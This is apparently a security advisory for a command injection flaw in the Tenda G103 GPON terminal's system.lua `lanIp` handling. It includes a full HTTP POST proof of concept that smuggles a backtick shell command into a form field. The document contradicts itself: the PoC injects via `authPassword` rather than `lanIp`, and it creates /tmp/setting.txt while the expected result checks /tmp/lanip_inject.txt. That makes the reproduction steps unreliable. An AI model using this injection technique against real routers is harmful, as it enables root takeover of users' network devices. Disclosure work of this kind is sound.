 # Tenda G103 Command Injection Vulnerability in `lanIp` Parameter of `action_set_system_settings` (system.lua)

## Overview

A command injection vulnerability exists in the `action_set_system_settings` function of the `system.lua` file in Tenda G103 GPON optical network terminals. The vulnerability arises due to improper sanitization of the `lanIp` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this to execute arbitrary system commands with root privileges, leading to full device compromise.

The environment can be simulated using FirmAE:
![](./imgs/6.png)
![](./imgs/7.png)

## Details



*   **Vendor**: Tenda

*   **Product**: G103_V1.0.0.5

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: https://tenda.com.cn/material/show/2615

*   **Affected Component**: `system.lua` (LuCI controller)

*   **Affected Function**: `action_set_system_settings`

*   **Affected Parameter**: `lanIp`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, sensitive data leakage, device configuration tampering, or complete takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_system_settings` function handles the `lanIp` parameter (used to configure the LAN interface IP address). The parameter is directly passed to system commands such as `ifconfig`, `fw_setenv`, and `uci` without sanitization or validation.

Key vulnerable code in `system.lua`:

![](./imgs/3.png)

Attackers can inject arbitrary commands by including shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `lanIp` parameter. These characters are not filtered, allowing the injected commands to be parsed and executed by the system shell.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/set_system_settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 40
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authPassword=1`touch$IFS/tmp/setting.txt`
```

#### Execution Steps:

1.  Send the above POST request with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI or another injected command) and verify the existence of `/tmp/lanip_inject.txt`.

#### Expected Result:

The file `/tmp/lanip_inject.txt` is created, confirming successful execution of the injected `touch` command.

![](./imgs/4.png)
![](./imgs/5.png)
